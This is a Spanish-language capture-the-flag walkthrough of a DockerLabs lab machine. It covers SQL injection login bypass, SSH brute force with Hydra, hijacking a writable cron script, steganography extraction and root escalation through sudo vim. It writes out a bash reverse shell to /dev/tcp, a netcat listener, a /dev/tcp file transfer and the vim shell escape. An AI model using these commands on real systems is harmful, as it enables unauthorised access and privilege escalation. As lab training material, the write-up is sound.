**IP**:  172.17.0.2
**S.O**: Linux
**Source:** DockeLabs
**Level:** Fácil
**Date:** 26 enero 2026
**Autor**:
**Descripción**: 

Web Enumeration
[[SQLI]] SQL Injection 
Information Leakage
SSH brute force with Hydra
Enumeración de procesos y comandos 
[[Escalada de Privilegios#**Escala de Privilegios mediante Cron Jobs]] - Explotación de Scripts Programados con Permisos Inseguros
Esteganografía con steghide
Transferencia de herramientas con cat
Escalada de Privilegios#**Escalada de Privilegios mediante Sudo**]] - vim

**Flags**:  


**Begin**:

---

Comenzamos haciendo un ping:

Hay conexión 
TTL: 64 -> Linux

Escaneo de Puertos abiertos TCP

Puertos abiertos: 
Puerto 22 (SSH)
Puerto 80 (HTTP)

Escaneo de versión al puertos específicos 22,80. 


Accedemos a la pagina web 

No vemos algo interesante y tambien vemos que la pagina no carga por completo

Inspeccionamos el código fuente.

Y vemos el nombre de dominio `gatekeeperhr.com`

Ponemos aquel nombre de dominio en `/etc/hosts`
```
172.17.0.2       gatekeeperhr.com
```

y accedemos a la pagina web

Y vemos una opción de iniciar sesión

Probamos si es vulnerable a SQLi con un payload 


Y logramos acceder 

Y nos muestra los nombre de los empleados y información adicional

Hacemos un fuzzing de directorios.


Nos dirigimos a `spam` y al inspeccionar su codigo fuente vemos un comentario en una cadenas de texto extrañas.


Lo analizamos con Dcode y nos dice que puede aquella cadena de texto puede estar em **ROT13**
Al dcodearlo vemos el texto legible que nos da una contraseña


Creamos un archivo .txt con los nombre de usuarios que encontramos


Y procedemos a realizar la fuerza bruta a SSH con la lista encontrados para ver a quien le pertenece la contraseña dada

Y encontramos las credenciales de un empleado

Accedemos al servicio SSH


Para lograr escalar privilegio a **root** analizamos los precesos en segundo plano

Y vemos que el usuario **valentina** esta ejecutando un script en .sh

Nos dirigimos al directorio `/opt` y vemos que tipo de permisos tenemos sobre el script

Y vemos que tenemos permiso de escritura

En otra terminal ponemos el puerto `4444` en escucha de nuestra maquina kali
```
nc -lvnp 4444
```

Imprimimos las siguiente lineas de código que nos dará una shell con los privilegios de `valentina`
```bash
echo '#!/bin/bash' > /opt/log_cleaner.sh
echo 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1' >> /opt/log_cleaner.sh
```

Y esperamos a que se ejecute
Y al ejecutarse nos da una sesion como el usuario `valentina`


Listamos los archivos de nuestro directorio

Y vemos que hay una imagen 

Lo mandamos a nuestra maquina kali con `cat` para analizarlo por el puerto `55555`
```bash
cat profile_picture.jpeg > /dev/tcp/172.17.0.1/5555
```

En nuestra maquina kali esperamos la imagen 

y logramos recibirla

Extraemos el archivo que trae internamente con `steghide`
```bash
steghide extract -sf profile_picture.jpeg
```
Y nos da un archivo llamado `secret.txt`

Leemos `secre.txt`

Y nos da la palabra `maq1ck`

Y al listar los permisos sudo, probamos con colocar aquella palabra cuando nos piden la contraseña

Y la contraseña fue valida, y vemos que podemos ejecutar `vim` como **root**

A partir de ese binario escalaremos privilegios a **root**
Ejecutamos el siguiente comando 
```bash
sudo /usr/bin/vim -c :terminal /bin/sh
```
Y logramos escalar a **root**

